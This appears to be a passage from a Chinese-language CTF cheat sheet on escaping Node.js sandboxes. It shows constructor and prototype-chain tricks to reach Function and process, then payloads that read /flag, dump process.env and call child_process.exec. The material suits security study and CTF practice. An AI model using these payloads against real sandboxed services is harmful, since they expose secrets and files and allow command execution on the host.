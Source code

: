 #### 构造器链子
利用对象的 `constructor`，最终能拿到 `Function`

```javascript
({}).constructor      // Function
({}).constructor("return this")()
([]).constructor("return this")()
true.constructor("return this")()
```

#### 原型链
```javascript
({}).__proto__.constructor("return this")()
[].__proto__.constructor("return this")()
```



一些最后的效果就是构造如下

这里举两个路线

```javascript
// mainModule 路线
({}).constructor("return process")()
  .mainModule.require('fs')
  .readFileSync('/flag','utf-8')

// createRequire 路线
(() => {
  const Module = ({}).constructor("return require('module')")();
  const req = Module.createRequire(process.cwd() + '/');
  return req('fs').readFileSync('/flag','utf-8');
})()

```

还有一些别的功能的

```javascript
JSON.stringify(process.env, null, 2)
--->
({}).constructor("return process")()
  .mainModule.require('util')
  .inspect(process.env, { depth: null })
```











### require替代
我们常使用require引入模块执行我们需要的功能

```javascript
require('child_process').exec('calc');
```
